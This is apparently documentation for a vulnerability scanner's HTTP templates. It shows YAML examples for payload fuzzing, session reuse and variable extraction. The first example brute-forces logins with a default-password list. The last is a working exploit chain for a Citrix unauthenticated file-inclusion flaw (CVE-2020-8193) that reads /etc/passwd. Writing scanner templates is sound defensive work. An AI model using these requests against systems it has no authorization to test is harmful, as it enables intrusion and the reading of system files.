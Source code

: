 ```yaml
---
title: "HTTP Payloads"
---
```


## HTTP Intruder fuzzing

This template makes a defined POST request in RAW format along with in template defined payloads running `clusterbomb` intruder and checking for string match against response.


```yaml
id: multiple-raw-example
info:
  name: Test RAW Template
  author: pdteam
  severity: info

# HTTP Intruder fuzzing with in template payload support. 

http:

  - raw:
      - |
        POST /?username=§username§&paramb=§password§ HTTP/1.1
        User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_5)
        Host: {{Hostname}}
        another_header: {{base64('§password§')}}
        Accept: */*
        body=test

    payloads:
      username:
        - admin

      password:
        - admin
        - guest
        - password
        - test
        - 12345
        - 123456

    attack: clusterbomb # Available: batteringram,pitchfork,clusterbomb

    matchers:
      - type: word
        words:
          - "Test is test matcher text"
```

## Fuzzing multiple requests 

This template makes a defined POST request in RAW format along with wordlist based payloads running `clusterbomb` intruder and checking for string match against response.

```yaml
id: multiple-raw-example
info:
  name: Test RAW Template
  author: pdteam
  severity: info

http:

  - raw:
      - |
        POST /?param_a=§param_a§&paramb=§param_b§ HTTP/1.1
        User-Agent: §param_a§
        Host: {{Hostname}}
        another_header: {{base64('§param_b§')}}
        Accept: */*

        admin=test

      - |
        DELETE / HTTP/1.1
        User-Agent: vulmap
        Host: {{Hostname}}

        {{sha256('§param_a§')}} 

      - |
        PUT / HTTP/1.1
        Host: {{Hostname}}

        {{html_escape('§param_a§')}} + {{hex_encode('§param_b§'))}}

    attack: clusterbomb # Available types: batteringram,pitchfork,clusterbomb
    payloads:
      param_a: payloads/prams.txt
      param_b: payloads/paths.txt

    matchers:
      - type: word
        words:
          - "Test is test matcher text"
```

## Authenticated fuzzing

This template makes a subsequent HTTP requests with defined requests maintaining sessions between each request and checking for string match against response.

```yaml
id: multiple-raw-example
info:
  name: Test RAW Template
  author: pdteam
  severity: info

http:
  - raw:
      - |
        GET / HTTP/1.1
        Host: {{Hostname}}
        Origin: {{BaseURL}}

      - |
        POST /testing HTTP/1.1
        Host: {{Hostname}}
        Origin: {{BaseURL}}

        testing=parameter

    cookie-reuse: true # Cookie-reuse maintain the session between all request like browser. 
    matchers:
      - type: word
        words:
          - "Test is test matcher text"
```

## Dynamic variable support

This template makes a subsequent HTTP requests maintaining sessions between each request, dynamically extracting data from one request and reusing them into another request using variable name and checking for string match against response.

```yaml
id: CVE-2020-8193

info:
  name: Citrix unauthenticated LFI
  author: pdteam
  severity: high
  reference: https://github.com/jas502n/CVE-2020-8193

http:
  - raw:
      - |
        POST /pcidss/report?type=allprofiles&sid=loginchallengeresponse1requestbody&username=nsroot&set=1 HTTP/1.1
        Host: {{Hostname}}
        User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
        Content-Type: application/xml
        X-NITRO-USER: xpyZxwy6
        X-NITRO-PASS: xWXHUJ56

        <appfwprofile><login></login></appfwprofile>

      - |
        GET /menu/ss?sid=nsroot&username=nsroot&force_setup=1 HTTP/1.1
        Host: {{Hostname}}
        User-Agent: python-requests/2.24.0
        Accept: */*
        Connection: close

      - |
        GET /menu/neo HTTP/1.1
        Host: {{Hostname}}
        User-Agent: python-requests/2.24.0
        Accept: */*
        Connection: close

      - |
        GET /menu/stc HTTP/1.1
        Host: {{Hostname}}
        User-Agent: python-requests/2.24.0
        Accept: */*
        Connection: close

      - |
        POST /pcidss/report?type=allprofiles&sid=loginchallengeresponse1requestbody&username=nsroot&set=1 HTTP/1.1
        Host: {{Hostname}}
        User-Agent: python-requests/2.24.0
        Accept: */*
        Connection: close
        Content-Type: application/xml
        X-NITRO-USER: oY39DXzQ
        X-NITRO-PASS: ZuU9Y9c1
        rand_key: §randkey§

        <appfwprofile><login></login></appfwprofile>

      - |
        POST /rapi/filedownload?filter=path:%2Fetc%2Fpasswd HTTP/1.1
        Host: {{Hostname}}
        User-Agent: python-requests/2.24.0
        Accept: */*
        Connection: close
        Content-Type: application/xml
        X-NITRO-USER: oY39DXzQ
        X-NITRO-PASS: ZuU9Y9c1
        rand_key: §randkey§

        <clipermission></clipermission>

    cookie-reuse: true # Using cookie-reuse to maintain session between each request, same as browser.

    extractors:
      - type: regex
        name: randkey # Variable name
        part: body
        internal: true
        regex:
          - "(?m)[0-9]{3,10}\\.[0-9]+"

    matchers:
      - type: regex
        regex:
          - "root:[x*]:0:0:"
        part: body
```